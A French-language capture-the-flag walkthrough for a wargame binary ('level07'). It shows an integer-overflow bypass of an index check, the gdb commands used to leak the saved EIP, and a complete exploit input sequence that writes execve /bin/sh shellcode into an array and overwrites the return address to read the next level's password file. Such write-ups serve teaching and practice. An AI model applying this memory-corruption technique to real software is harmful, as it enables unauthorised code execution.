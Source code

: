 Ce binaire etait plus difficile que les autres a exploiter.

Son fonctionnement est plutot simple : 
Il boucle a l'infini, en demandant une entree a l'utilisateur (a la maniere d'un shell). Il y a 3 commandes possibles : store, read et quit. 

store : Demande un index puis une valeur, puis stock la valeur a l'index indique.
read  : Demande un index puis lit la valeur a l'index indique.
quit  : Quitte le binaire

En desassemblant le binaire pour en savoir un peu plus, on peut noter plusieurs choses : 

Un test est effectue sur l'index que nous indiquons :` if (index % 3 == 0)` ...
Si ce test se revele etre vrai, alors un message d'erreur s'affiche nous indiquant que nous ne pouvons
pas stocker de nombre a cet index. Cela sera tres important pour la suite.

Nous voyons egalement que aucune verification n'est mise en place pour verifier la valeur que nous 
envoyons a store ou a read.
Ainsi, nous pouvons lire a des indexs ayant pour valeur une negative ou alors une valeur > 100 (le tableau de data faisant 100*4 bytes). ceci est egalement tres important pour la suite. 

Nous savons donc que nous pouvons ecrire ou nous voulons en memoire. Enfin presque, car le index % 3 nous complique la tache. Une maniere de le contourner est la suivant :

Lui passer une valeur >= au INT_MAX afin de recuperer uniquement la difference entre INT_MAX + x
Nous savons qu'en memoire notre valeur est multiplie par 4 car il s'agit d'un tableau de int (4 bytes).
Voici par exemple commnent ecrire a l'index 0 : 
`4294967295 / 4 = 1073741823 + 1 = 1073741824`. Avec cette valeur, nous pouvons ecrire a l'index 0 (data[0])
car `1073741824 % 3 == 1`. Le test est donc respecte. Nous allons utiliser cette methode pour ecrire 
aux endroits "interdits" en memoire. 

J'ai donc decide d'ecraser la sauvegarde EIP du main. Pour cela, il suffit de la leaker :

	$ gdb level07
	$ b*main+455
	$ r
	$ store
	$ i f

	eip = 0x80488ea in main; saved eip 0xf7e45513


Maintenant, nous allons dumper notre stack avec read_number jusqu'a obtention de la valeur "0x80488ea"
qui correspond a EIP du main. 

En faisant plusieurs essai avec des valeurs > 100, on se rend compte que la sauvegarde d'EIP se trouve
a l'index 114 :

	$ ./level07
	$ read
	$ 114
	
	Number at data[114] is 4158936339     <--- 0xf7e45513

Par chance, l'index 114 etait rapide a trouver. Cependant j'ai quand meme creer un script d'automatisation (voir Ressources/find_eip.sh)

Maintenant que nous avons tous ces elements, l'idee est de stocker l'adresse de notre shellcode a l'adresse
de data[0] puis d'ecraser sEIP avec l'adresse 0 de notre tableau data.
Le probleme, c'est que lors de l'execution du binaire, l'environement semble etre "efface". Le trick 
va donc etre de stocker notre shellcode (4 bytes par 4 bytes) dans les adresse de data[0] a data[5], puis, de sauter dessus en ecran sEIP par l'adresse de data[0], comme indique ci-dessus. 
Je rappel que nous ne pouvons pas ecrire a tous les index que nous souhaitons, nous allons donc parfois
devoir jouer avec l'overflow, comme indique au debut du walkthrough.

Il y a egalement un decalage memoire entre gdb et sans gdb. L'adresse de notre tableau data n'est donc pas la meme selon si on lance le binaire avec gdb ou non.
Pour la trouver, c'est assez simple. Dans gdb, il suffit de run le binaire puis de chercher, via des index negatifs, ou se trouve l'adresse du tableau.
En faisaint :

	$ gdb level07
	$ start
	$ read
	$ -9
	
On obtient : 0xffffd544 (en decimal). Il suffit donc de proceder pareil hors gdb pour obtenir l'adresse de notre tableau :

	0xffffd564 (4294956388)

J'ai choisi le shellcode suivant (23 bytes) : http://shell-storm.org/shellcode/files/shellcode-827.php

Et voici notre exploit : 

		store
		1750122545        # \x31\xc0\x50\x68
		1073741824        # data[0] (en utilisant la methode de l'overflow)
		store
		1752379183	  # \x2f\x2f\x73\x68
		1		  # data[1]
		store
		1768042344	  # \x68\x2f\x62\x69
		2		  # data[2]
		store
		1357089134        # \x6e\x89\xe3\x50
		1073741827	  # data[3] (en utilisant la methode de l'overflow)
		store
		2967570771	  # \x53\x89\xe1\xb0
		4		  # data[4]
		store
		8441099		  # \x0b\xcd\x80	
		5
		store
		4294956388	  # adresse de data[0] 
		1073741938        # data[114] (save eip)
		quit

`cat /home/users/level08/.pass`
